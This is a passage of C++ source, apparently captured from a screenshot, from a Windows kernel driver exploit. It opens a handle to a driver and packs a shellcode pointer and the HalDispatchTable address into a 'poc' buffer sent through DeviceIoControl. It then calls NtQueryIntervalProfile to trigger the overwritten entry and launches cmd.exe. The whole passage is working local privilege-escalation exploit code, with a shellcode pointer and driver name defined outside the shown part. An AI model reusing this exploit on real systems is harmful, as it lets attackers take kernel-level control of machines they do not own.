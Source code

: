 ```cpp
                    HANDLE hDevice = CreateFileA(kDevName,
                        GENERIC_READ | GENERIC_WRITE,
                        0,
                        NULL,
                        OPEN_EXISTING,
                        0,
                        NULL
                    );
                    
                    if (hDevice == INVALID_HANDLE_VALUE) {
                        printf("[-] Error - dailed to get file handle!\n");
                        system("pause");
                        return -1;
                    }
                    printf("[+] Successfully obtained a handle to the driver\n");

                    char poc[113] = "AAAABBBB222233334444555566667777888899990000zzzzxxxxccccvvvvbbbbnnnnmmmmaaaassssddddffffgggghhhhjjjjkkkkllllpppp";
                    //printf("%d", sizeof(poc));
                    DWORD bytesRetn;

                    LPVOID *var1 = &shellc_ptr;

                    poc[0] = ((unsigned char*)&var1)[0];
                    poc[1] = ((unsigned char*)&var1)[1];
                    poc[2] = ((unsigned char*)&var1)[2];
                    poc[3] = ((unsigned char*)&var1)[3];

                    poc[4] = ((unsigned char*)(&HalDispatchTable))[0];
                    poc[5] = ((unsigned char*)(&HalDispatchTable))[1];
                    poc[6] = ((unsigned char*)(&HalDispatchTable))[2];
                    poc[7] = ((unsigned char*)(&HalDispatchTable))[3];

                    //memcpy((void *) &poc[0], HalDispatchTable, 0x4);
                    //memcpy((void *) &poc[4], &shellc_ptr, 0x4);

                    printf("[+] Starting interaction with the driver\n");
                    DeviceIoControl(hDevice, IO_CODE, (LPVOID)poc, 100, NULL, 0, &bytesRetn, NULL);

                    CloseHandle(hDevice);

                    HMODULE ntdll = GetModuleHandleA("ntdll");
                    typedef NTSTATUS(NTAPI* PtrNtQueryIntervalProfile)(
                        DWORD ProfileSource,
                        PULONG Interval
                        );
                    PtrNtQueryIntervalProfile _NtQueryIntervalProfile = (PtrNtQueryIntervalProfile)GetProcAddress(ntdll, "NtQueryIntervalProfile");
                    printf("[+] Address of NtQueryIntervalProfile: 0x%x.\n", _NtQueryIntervalProfile);
                    ULONG whatever;
                    _NtQueryIntervalProfile(2, &whatever);

                    system("cmd.exe");
                }
                //printf("Skipped!\n");
            }
        }
    }
    else {
        printf("EnumDeviceDrivers failed; array size needed is %d\n", cbNeeded / sizeof(LPVOID));
        return 1;
    }
```